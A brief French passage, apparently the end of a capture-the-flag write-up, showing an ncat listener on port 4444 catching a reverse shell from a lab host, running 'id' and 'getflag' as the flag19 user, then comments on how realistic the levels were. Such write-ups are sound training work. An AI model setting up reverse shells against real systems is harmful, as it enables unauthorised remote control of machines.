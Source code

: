 Celui ci fonctionne :

```shellsession
$ ncat -l -p 4444 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 192.168.56.97.
Ncat: Connection from 192.168.56.97:60869.
id
uid=980(flag19) gid=1020(level19) groups=980(flag19),1020(level19)
getflag
You have successfully executed getflag on a target account
```

J'ai particulièrement aimé les astuces sur le level 16 qui pourraient s'appliquer dans la réalité. Les autres sont instructifs mais pas forcément aussi réalistes.
